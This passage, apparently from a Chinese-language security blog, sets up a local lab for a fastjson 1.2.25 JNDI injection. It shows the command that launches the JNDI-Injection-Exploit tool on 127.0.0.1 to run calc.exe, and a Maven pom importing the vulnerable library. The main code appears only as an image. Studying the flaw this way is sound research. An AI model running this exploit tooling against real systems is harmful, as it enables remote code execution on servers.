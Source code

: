 ```bash
"C:\Program Files\Java\jdk1.8.0_65\bin\java.exe" -jar .\JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A 127.0.0.1 -C "calc.exe"
```

导入`fastjson1.2.25`：

```bash
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>fastjson_8u66_1_2_25</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>

    <dependencies>
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.25</version>
        </dependency>
    </dependencies>
</project>
```

在`Main.java`中写入如下内容：

[![](assets/1706233003-8a90796f33b556b1a74cb9febaf05e99.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240124182556-f5c5cfc2-baa2-1.jpeg)
